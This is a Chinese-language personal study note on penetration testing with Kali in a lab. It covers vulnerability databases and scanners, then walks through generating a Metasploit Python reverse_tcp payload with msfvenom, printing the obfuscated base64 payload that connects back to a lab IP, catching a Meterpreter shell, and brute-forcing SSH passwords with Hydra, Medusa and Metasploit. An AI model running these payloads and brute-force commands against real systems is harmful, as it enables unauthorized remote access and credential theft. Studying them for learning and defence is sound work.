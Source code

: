 ===========================
Kali漏洞分析利用
===========================


.. post:: 2023-02-27 21:24:23
  :tags: 学习记录
  :category: 安全
  :author: YanQue
  :location: CD
  :language: zh-cn


经过 :doc:`/docs/安全/学习记录/Kali信息收集` 收集到的资产

- 联系人、联系方式
- 域名和子域名
- IP、端口信息
- 操作系统、应用程序、框架、数据库、版本信息
- 网站文件（目录扫描）
- 搜索引擎和网络空间测绘收集到的信息
- ...

漏洞数据库
===========================

CVE (Common Vulnerabilities & ExposUres ） (通用漏洞共享平台)::

  https://cve.mitre.org/
  https://www.cvedetails.com/
  https://www.cnvd.org/cn/
  https://nox.qianxin.com/vulnerability

国内的::

  # 国家
  https://www.cnvd.org.cn/

  # 奇安信
  https://ti.qianxin.com/
  https://ti.qianxin.com/vulnerability/

一般漏洞编号::

  CVE + 年份 + 编号

如::

  CVE-2004-1137

漏洞利用工具集
===========================

- POC: Proof Of Concept(观念验证)
- EXP: Exploit 利用(漏洞利用)

可用漏洞利用网站::

  https://www.exploit-db.com/

相关指令:
  - :doc:`/docs/安全/kali/kali渗透专用指令/msfconsole` 的 searchsploit
  - pocsuite


.. note::

  如果自己要做一个漏洞搜集的汇总网站, 可以github搜索: pocsuite

  .. figure:: ../../../resources/images/2024-02-25-21-14-34.png
    :width: 480px

  提供了一个基础的框架

漏洞扫描工具
===========================

商业漏洞扫描工具
  - Appscan
  - Nessus
  - OpenVAS
  - ...

免费的
  - goby (红队是收费版)
  - Burp
  - https://github.com/k8gege/Ladon

国产的

.. figure:: ../../../resources/images/2024-02-25-21-19-29.png
  :width: 480px

.. note::

  一般不允许使用漏洞扫描工具扫描线上服务,
  因为会建立大量请求, 说不定就直接把你封了(同ip大量请求)

  一般就内部未上线的用下

msf反弹连接
===========================

msf使用见 :doc:`/docs/安全/kali/kali渗透专用指令/msfconsole`

实例

生成payload, 指令详见 :doc:`/docs/安全/kali/msf/msfvenom`,
生成一个python版本的payload::

  # msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
  # LHOST=攻击机IP    一般为自己本机ip(本机就是攻击机)
  # LPORT=攻击机端口  随便
  msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.186.133 LPORT=8889 -f raw -o payload.py

攻击机生成payload
---------------------------

攻击机生成::

  ┌──(kali㉿kali)-[~/test]
  └─$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.186.133 LPORT=8889 -f raw -o payload.py
  /usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
  ...

  ┌──(kali㉿kali)-[~/test]
  └─$

  ┌──(kali㉿kali)-[~/test]
  └─$ cat payload.py
  exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMTg2LjEzMycsODg4OSkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoemxpYi5kZWNvbXByZXNzKGJhc2U2NC5iNjRkZWNvZGUoZCkpLHsncyc6c30pCg==')[0]))

将payload传递到靶机
---------------------------

利用漏洞将生成的 `payload.py` 上传到目标机器


攻击机使用msf监听
---------------------------

指令::

  # 进入msf控制台
  msfconsole

  # 使用监听模块
  use exploit/multi/handler

  # 设置payload类型 注意跟上面生成时使用的模块要一致
  set payload python/meterpreter/reverse_tcp
  set lhost 攻击机IP
  set lport 攻击机端口
  exploit

实例::

  msf6 > use exploit/multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set lhost 192.168.186.133
  lhost => 192.168.186.133
  msf6 exploit(multi/handler) > set lport 8889
  lport => 8889
  msf6 exploit(multi/handler) >
  msf6 exploit(multi/handler) > exploit

  [*] Started reverse TCP handler on 192.168.186.133:8889

当靶机触发payload时候::

  [*] Sending stage (40168 bytes) to 192.168.186.129
  [*] Meterpreter session 1 opened (192.168.186.133:8889 -> 192.168.186.129:53686) at 2024-02-25 21:56:55 +0800

  meterpreter >

即获取到 `192.168.186.129` 的反弹shell

执行个 dir 指令::

  meterpreter > dir
  Listing: D:\Project\DevTools\phpStudy_64\phpstudy_pro\WWW\test
  ==============================================================

  Mode              Size  Type  Last modified            Name
  ----              ----  ----  -------------            ----
  100666/rw-rw-rw-  503   fil   2024-02-25 21:53:44 +08  pl.py
                                00

  meterpreter >

Burp Suite爆破web密码
===========================

bp拦截成功后将其转入 **Intruder**

.. figure:: ../../../resources/images/2024-02-26-22-25-22.png
  :width: 480px

然后选择 **Sniper** (狙击手) 模式即可

.. figure:: ../../../resources/images/2024-02-26-22-28-05.png
  :width: 480px

设置好 Payload 后点击 **Start attack** 开始攻击

.. figure:: ../../../resources/images/2024-02-26-22-23-21.png
  :width: 480px

  效果

可以看出当密码正确时候, 响应长度可以作为判断是否成功标志(还是得看情况)

Hydra爆破Linux密码
===========================

相关指令:
  - :doc:`/docs/安全/kali/kali渗透专用指令/hydra`
  - :doc:`/docs/安全/kali/kali渗透专用指令/medusa`
  - :doc:`/docs/安全/kali/kali渗透专用指令/msfconsole`

三种工具::

  hydra -L username.txt -P password.txt 192.168.142.66 ssh


  medusa -M ssh -h 192.168.142.66 -u root -P password.txt


  msfconsole
  use auxiliary/scanner/ssh/ssh_login
  set RHOSTS 192.168.142.66
  set PASS_FILE password.txt
  set USER_FILE username.txt
  exploit

sqlmap渗透
===========================

工具 :doc:`/docs/安全/kali/kali渗透专用指令/sqlmap`

.. figure:: ../../../resources/images/2024-02-26-22-30-58.png
  :width: 480px






















